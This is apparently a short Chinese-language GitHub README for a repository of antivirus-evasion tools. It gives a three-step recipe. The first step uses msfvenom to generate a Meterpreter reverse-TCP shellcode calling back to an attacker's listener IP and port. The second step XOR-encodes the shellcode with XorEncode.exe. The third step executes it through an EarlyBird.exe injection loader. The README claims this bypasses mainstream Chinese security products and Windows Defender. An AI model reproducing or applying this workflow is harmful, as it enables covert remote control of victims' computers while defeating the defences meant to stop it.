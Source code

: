 该仓库用于放置自己编写绕过杀软的程序
使用方法：

1.用MSF生成完整的shellcode：msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=192.168.43.147 lport=4444 -f raw > beacon.bin

2.然后用XorEncode.exe加密生成的shellcode文件：XorEncode.exe beacon.bin，结果会生成一个EncodeRAWData

3.最后用EarlyBird.exe执行加密后的文件EncodeRAWData：EarlyBird.exe EncodeRAWData

绕过效果：可以绕过国内主流的安全防护软件以及windows defender

博客地址：https://reader-l.github.io